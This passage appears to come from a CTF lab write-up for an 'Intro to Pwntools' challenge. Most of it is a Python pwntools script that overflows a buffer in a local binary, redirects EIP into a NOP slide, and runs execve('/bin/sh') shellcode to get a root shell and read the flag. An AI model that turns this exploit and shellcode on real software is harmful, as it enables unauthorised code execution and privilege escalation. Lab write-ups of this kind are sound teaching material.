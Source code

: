 {% tab title="pwn_shellcraft2.py" %}
```python
from pwn import *

proc = process("./intro2pwnFinal")
print proc.recvline()
padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd500 + 256)
nop_slide = '\x90' * 1000
shellcode = 'jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
payload = padding + eip + nop_slide + shellcode
proc.sendline(payload)
proc.interactive()
```
{% endtab %}
{% endtabs %}

```bash
(python pwn_shellcraft.py; cat) | ./intro2pwnFinal
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 10-57-21.png>)

```
python pwn_shellcraft2.py
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 11-13-43.png>)

#### What is the flag?

```bash
cat /root/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 11-02-21.png>)

{% hint style="success" %}
`flag{pwn!ng_!$_fr33d0m}`
{% endhint %}

## Reference

{% embed url="https://github.com/dizmascyberlabs/IntroToPwntools" %}
